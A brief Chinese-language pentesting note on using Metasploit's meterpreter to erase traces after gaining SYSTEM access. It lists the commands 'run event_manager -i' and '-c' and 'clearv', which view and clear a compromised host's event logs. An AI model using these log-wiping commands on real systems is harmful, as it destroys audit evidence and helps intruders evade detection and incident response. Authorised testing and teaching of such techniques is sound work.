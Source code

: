 # Metasploit清除渗透痕迹

工具：Metasploit

为了实现这个目的，我们需要通过事件管理器模块清除事件日志。

这里，假设经过一系列的渗透测试已经获取了system权限的meterpreter，以下命令在meterpreter命令行下执行:

## 查看事件日志

```
run event_manager -i
```

## 删除事件日志

```
run event_manager -c
```

或者在meterpreter命令行中输入clearv命令清除目标系统的事件日志。
